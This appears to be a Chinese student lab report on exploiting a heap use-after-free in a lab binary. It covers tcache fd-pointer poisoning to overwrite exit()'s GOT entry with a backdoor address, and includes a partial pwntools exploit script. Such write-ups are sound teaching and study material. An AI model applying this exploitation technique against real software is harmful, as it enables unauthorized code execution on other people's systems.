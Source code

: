 可以看到，未启用PIE选项。

#### 2.1 布置合适的heap layout

首先，我们可以利用`add_ddl()`先申请3个对象，然后释放先前申请的2个 (设先释放A，后释放B)，已经释放的两个chunk会进入tcache组织，此时的heap layout如下：

![image-20210516185604563](Report of Lab4.assets/image-20210516185604563.png)

可以看到，fd单链表中的结构大致如下：`tcache -> B -> A`. 且B的fd指向0x22152f0处（即A的地址+0x10处）

#### 2.2 污染fd指针

此时，我们可以利用`edit_ddl()`将B的fd修改为`exit()`函数的GOT，这样，当我们在下一步中重新malloc两个对象时，就可以写入`exit()`的GOT entry

在这里，我们需要确认edit的是ddl对象中的哪个值。在上一步中，我们看到了B的fd指向0x22152f0处，为此，我们可以通过gdb调试看到，读入A的`ddl_time`参数时，地址也是0x22152f0，因此，我们可以通过`edit_ddl("2", p64(edit_got), 0xdeadbeef)`来实现污染fd指针，使其指向`exit()`的GOT。

![image-20210516185407342](Report of Lab4.assets/image-20210516185407342.png)

而`exit()`函数的got可以通过`objdump -R uaf`的命令获得，如下：

![image-20210516163229492](Report of Lab4.assets/image-20210516163229492.png)

综上，完成污染fd指针后的heap layout如下：

![image-20210516190006360](Report of Lab4.assets/image-20210516190006360.png)

可以看到，B的fd已经指向了我们想要的目标

#### 2.3 改写目标地址

经过上一步分析，我们可以通过重新申请两个ddl对象，并将第二个对象的`ddl_time`变量设置为`backdoor()`函数的地址，即可完成改写目标地址。

![image-20210516190143319](Report of Lab4.assets/image-20210516190143319.png)

可以看到，`exit()`内的got entry已经变为了`backdoor()`的地址。

#### 2.4 触发

因此，我们只需要在选择操作时输入5，执行`exit()`函数，控制流就会跳到我们希望的后门函数中。最终的截图如下：

![image-20210516182804622](Report of Lab4.assets/image-20210516182804622.png)

整个过程完整的exploit.py代码如下：

```python
from pwn import *

context.log_level = 'DEBUG'


def add_ddl(time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("1")
    p.recvuntil("the ddl time\n")
    p.sendline(time)
    p.recvuntil("the ddl content")
    p.sendline(content) 

def free_ddl(index):
    p.recvuntil("Your chocie:\n")
    p.sendline("2")
    p.recvuntil("the ddl index")
    p.sendline(index)

def edit_ddl(index, time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("4")
```